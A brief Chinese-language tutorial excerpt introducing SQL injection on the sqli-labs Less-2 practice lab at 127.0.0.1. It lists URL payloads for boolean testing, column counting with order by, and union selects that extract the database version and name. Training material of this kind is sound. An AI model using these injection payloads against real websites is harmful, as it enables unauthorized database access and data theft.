

SQL注入初见（sqli-labs less2为例）
http://127.0.0.1/sqli-labs/Less-2?id=1 and 1=2 %23

http://127.0.0.1/sqli-labs/Less-2?id=1 order by 4 %23

http://127.0.0.1/sqli-labs/Less-2?id=-1 union select 1,2,3 %23

http://127.0.0.1/sqli-labs/Less-2?id=-1 union select 1,2,concat(0x7e,version()) %23

http://127.0.0.1/sqli-labs/Less-2?id=-1 union select 1,2,concat(0x7e,database()) %23